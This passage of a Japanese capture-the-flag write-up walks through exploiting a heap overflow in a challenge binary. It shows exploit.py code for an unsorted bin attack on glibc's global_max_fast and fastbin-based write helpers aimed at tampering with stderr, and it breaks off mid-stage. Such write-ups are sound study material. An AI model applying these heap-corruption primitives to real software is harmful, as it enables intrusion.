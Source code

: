 ```python: exploit.py#L72
malloc('F', 0x410)
malloc('G', 0x10)
free('F')
malloc('H', 0x420)
```

### 1. unsorted bin attackによるglobal_max_fastの改竄
前準備が終わったのでここから攻撃に入る。第1ステージでは以下のようにしてunsorted bin attackによるglobal_max_fastの改竄を行う。
```python: #L77
pad18h = b'a' * 0x18

# 1: unsorted bin attackによるglobal_max_fastの改竄
free('B')
read(
    'A',
    pad18h + 
    pack(0x421) + 
    pack(0) + 
    pack(global_max_fast - 0x10)[:2])
malloc('B', 0x410)
```
chunkBをfreeしてunsorted binに登録した後、chunkAのheap overflowによりchunkB.bkを&global_max_fast - 0x10に書き変えている。この部分は2章でも説明した通り4bitの運試しが必要な部分である。ここでは15:12が0x0であることを期待している。これが成功するとglobal_max_fastに大きな値が入るのでfastbinによる値の書き込みが行えるようになる。

### 2. stderrの改竄
第2ステージではstderrを改竄する。値の書き込みには2章で説明したfastbinによる値の書き込みを用いる。できることは以下の2つだった。

- fastbinsY\[i]への任意の値の書き込み
- fastbinsY\[i]の値をfastbinsY\[j]にcopy

この2つの操作は何度も使うので関数として定義しておく。まずfastbinsY\[i]への任意の値の書き込みを行う関数editを以下のように定義する。前述の通りchunkD.mchunk_sizeを書き変えることでchunkDをあたかもこのサイズのchunkかのように扱わせる。最後のmallocでchunkDが返るのでこの関数の呼び出しの前後でheapの状態は変化しない。
```python: explit.py#L92
def edit(addr: hex, x: bytes):
    read('C', pad18h + size_chunk(addr))
    # dst: D
    free('D')
    # dst: D -> x
    read('C', pad18h + size_chunk(addr) + x)
    # dst: x
    malloc('D', size_malloc(addr))
```
fastbinsY\[i]の値をfastbinsY\[j]にコピーするcopy関数も定義しておく。この関数はeditと比べると複雑なので順を追って説明する。まず関数の先頭は以下のようになっている。
```python: exploit.py#L102
def copy(dst: hex, src: hex, tamper: bytes):
    # dst: D -> E
    read('D', pad18h + size_chunk(dst))
    free('E')
    read('C', pad18h + size_chunk(dst))
    free('D')
```
chunkD.mchunk_size、chunkE.mchunk_sizeをdstに対応するサイズに書き変えてfreeすることでdstにchunkDとchunkEを繋いでいる。今回のbinaryではfree時に以下のような処理が行われるためchunkD, chunkEのアドレスが失われていることに注意する。
```c: kusano/ctfpwn_challenge/files/writefree.c#L46
     v[t] = NULL;
```
次にchunkCのheap overflowによりchunkD.fdをchunkDのアドレスに書き変えている。これでdouble freeされた状態と同じ状態が作れるが、chunkEがたどれなくなっている。そこでchunkEを再利用するために続く部分で2回mallocを行っている。chunkD, chunkIのアドレスはどちらもchunkDのアドレスになる。これは後で使う。
```python: exploit.py#L109
    # dst: D -> D -> D ...
    read('C', pad18h + size_chunk(dst) + pack(0xb0)[:1])
    
    malloc('D', size_malloc(dst))
    malloc('I', size_malloc(dst))
```

[^1]: 草野 一彦「解題pwnable」(https://amzn.asia/d/1JasEUa)